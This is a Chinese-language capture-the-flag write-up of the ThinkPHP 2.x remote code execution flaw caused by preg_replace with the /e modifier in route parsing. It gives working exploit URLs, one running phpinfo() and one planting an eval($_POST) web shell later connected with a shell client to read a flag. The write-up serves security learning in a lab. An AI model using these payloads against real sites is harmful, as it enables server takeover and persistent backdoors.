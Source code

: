 # ThinkPHP 2.X 任意代码执行 by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 漏洞概述

在 ThinkPHP ThinkPHP 2.x 版本中，使用 preg_replace 的 /e 模式匹配路由：`$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));`

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

 ThinkPHP 3.0 版本因为 Lite 模式下没有修复该漏洞，也存在这个漏洞。所以先来看看`preg_replace`这个函数，这个函数是个替换函数，而且支持正则，使用方式如下：

`preg_replace('正则规则','替换字符','目标字符')`

这个函数的3个参数，结合起来的意思是：如果目标字符存在符合正则规则的字符，那么就替换为替换字符，如果此时正则规则中使用了`/e`这个修饰符，则存在代码执行漏洞。

下面是搜索到的关于`/e`的解释：

```
e 配合函数preg_replace()使用, 可以把匹配来的字符串当作正则表达式执行;  
/e 可执行模式，此为PHP专有参数，例如preg_replace函数。
```

## Write up

首先打开靶场

![1](./1.png)

利用 POC 来验证, phpinfo() 成功执行。

```
/index.php?s=/index/index/xxx/${@phpinfo()}
```

![2](./2.png)

然后写入一句话

`/index.php?s=/index/index/xxx/${${@eval($_POST[1])}}`

并用菜刀连接

![4](./4.png)

连接完成后去 tmp 临时文件下去查看 Flag

![5](./5.png)
